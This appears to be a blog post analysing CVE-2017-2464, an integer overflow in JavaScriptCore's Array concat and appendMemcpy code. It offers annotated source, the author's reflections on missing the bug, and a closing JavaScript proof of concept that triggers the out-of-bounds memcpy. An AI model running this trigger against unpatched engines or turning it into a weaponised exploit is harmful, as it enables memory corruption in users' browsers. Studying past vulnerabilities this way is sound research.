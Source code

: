 ```yaml
---
layout: post
title: Analysis of CVE-2017-2464
date: 2021-01-12
permalink: /:title/
description: "yooo"
tags: [vulnerability research]
share: true
comments: false
status: ongoing
---
```


This is an attempt I made somewhere around April in 2019 at finding an existing vulnerability.
Such attempt was made only being aware of the existence of said vulnerability (an integer overflow).

```
git rev-list -1 --before="2017-01-20 12:00" master
```

| Target | Javascript Core |
| commit |     956c6759d161d678125b0b9b8128e3fe6bd37c69 |
| file |     jsc/I dont remember |


<pre>
function concatSlowPath()
{
    "use strict";

    if (this == null)
        @throwTypeError("Array.prototype.concat requires that |this| not be null or undefined");

    var currentElement = @Object(this);

    var constructor; [[This block isn't too interesting, it is used to get the constructor of the object that called ".concat"::lsn]]
    if (@isArray(currentElement)) {
        constructor = currentElement.constructor;
        if (@isArrayConstructor(constructor) && @Array !== constructor) [[We have this check so that if some array from a different global object calls this map they don't get an array with the Array.prototype of the other global object::rsn]]
            constructor = @undefined;
        else if (@isObject(constructor)) {
            constructor = constructor.@speciesSymbol;
            if (constructor === null)
                constructor = @Array;
        }
    }

    var argCount = arguments.length;
    var result;
    if (constructor === @Array || constructor === @undefined) [[non-array objects can too call concat, so before proceeding any further, make sure 'result' is the of the same type as *this::rsn]]
        result = @newArrayWithSize(0);
    else
        result = new constructor(0);
    
    var resultIsArray = @isJSArray(result);[[This will be later used to decide which path to take::rsn]]

    var resultIndex = 0;
    var argIndex = 0;

    do {
        let spreadable = @isObject(currentElement) && currentElement.@isConcatSpreadableSymbol;[[This is the codepath of interest as the else clause explicitly checks for overflows::lsn]]
        if ((spreadable === @undefined && @isArray(currentElement)) || spreadable) { 
            let length = @toLength(currentElement.length);
            if (resultIsArray && @isJSArray(currentElement)) { [[Again, this kind of overflow can only be triggered with arrays::rsn]]
                @appendMemcpy(result, currentElement, resultIndex); [[appendMemcpy is probably safe, though it is called in the wrong way::lsn]]
                resultIndex += length;
            } else {
                if (length + resultIndex > @MAX_SAFE_INTEGER)
                    @throwTypeError("length exceeded the maximum safe integer");
                for (var i = 0; i < length; i++) {
                    if (i in currentElement)
                        @putByValDirect(result, resultIndex, currentElement[i]);[[For non-array objects that can be iterated upon, follow a slightly different road @putByValDirect(values, index, argument);::rsn]]
                    resultIndex++;
                }
            }
        } else {
            if (resultIndex >= @MAX_SAFE_INTEGER)
                @throwTypeError("length exceeded the maximum safe integer");
            @putByValDirect(result, resultIndex++, currentElement);
        }
        currentElement = arguments[argIndex];
    } while (argIndex++ < argCount);

    result.length = resultIndex; [[what if the vunlerability consists in increasing resultIndex::rsn]]
    return result;
}
</pre>

<pre>
bool JSArray::appendMemcpy(ExecState* exec, VM& vm, unsigned startIndex, JSC::JSArray* otherArray)
{
    auto scope = DECLARE_THROW_SCOPE(vm);

    if (!canFastCopy(vm, otherArray)) [[I can only copy in the fast way::lsn]]
        return false;

    // A memcpy is being called. In order to do the copy,
    // everything from type to size must be the same. In
    // order to figure out how much mem to allocate, and
    // how to use it, it is necessary to know how the object
    // is layed out first.
    IndexingType type = indexingType();
    IndexingType copyType = mergeIndexingTypeForCopying(otherArray->indexingType());

    if (type == ArrayWithUndecided && copyType != NonArray) { [[Depending on the type of the array to be copied, take a different path::lmn]]
        if (copyType == ArrayWithInt32)
            convertUndecidedToInt32(vm);
        else if (copyType == ArrayWithDouble)
            convertUndecidedToDouble(vm);
        else if (copyType == ArrayWithContiguous)
            convertUndecidedToContiguous(vm);
        else {
            ASSERT(copyType == ArrayWithUndecided);
            return true;
        }
    } else if (type != copyType)
        return false;

    unsigned otherLength = otherArray->length();
    unsigned newLength = startIndex + otherLength;
    if (newLength >= MIN_SPARSE_ARRAY_INDEX)
        return false;
 
    if (!ensureLength(vm, newLength)) { [[make sure the array is contiguous::rsn]]
        throwOutOfMemoryError(exec, scope);
        return false;
    }
    ASSERT(copyType == indexingType());

    if (type == ArrayWithDouble)
        memcpy(butterfly()->contiguousDouble().data() + startIndex, otherArray->butterfly()->contiguousDouble().data(), sizeof(JSValue) * otherLength);
    else
        memcpy(butterfly()->contiguous().data() + startIndex, otherArray->butterfly()->contiguous().data(), sizeof(JSValue) * otherLength);

    return true;
}
</pre>

```
// Feedback:
//
//  Both [?] were correct.
//  
//  -> Why did I not find the vulnerability ?
//
//     the lack of context in jsc's codebase
//     definitely made things harder. The
//     main reason i did not know
//
//     unsigned newLength = startIndex + otherLength
//
//     is a vulnerable thing, because i didn't connect
//     the memcpy call to the very short buffer. Had I
//     thought about how memcpy interacts with the length
//     of the buffer I should would have found it
```

// PoC
<pre>
var a = []; 
a.length = 0xffffff00;
var b = a.splice(0, 0x100000); // Undecided array

var args = [];
args.length = 4094;
args.fill(b);

var q = [];
q.length = 0x1000;
q.fill(7);

var c = a.splice(0, 0xfffef); //Shorter undecided array

args[4094] = c;
args[4095] = q;


b.concat.apply(b, args);
</pre>

[[***Changelog***<br>
• 12/01/2021: Sidenotes <br>
::rmn]]

